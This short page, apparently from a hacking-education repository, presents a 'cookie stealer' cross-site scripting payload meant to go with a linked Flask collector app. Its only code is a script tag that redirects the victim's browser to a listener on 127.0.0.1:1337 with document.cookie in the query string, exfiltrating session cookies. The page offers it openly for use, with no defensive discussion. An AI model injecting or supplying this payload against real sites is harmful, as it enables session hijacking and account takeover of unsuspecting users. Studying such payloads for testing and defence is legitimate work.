 # Cookie Stealer Payload
This is the payload that can be used with the [cookie stealer Python/Flask app](https://github.com/The-Art-of-Hacking/h4cker/blob/master/python_ruby_and_bash/cookie_stealer.py).

```
<script type=“text/javascript”>document.location=“http://127.0.0.1:1337/?c=“+document.cookie;</script>
```
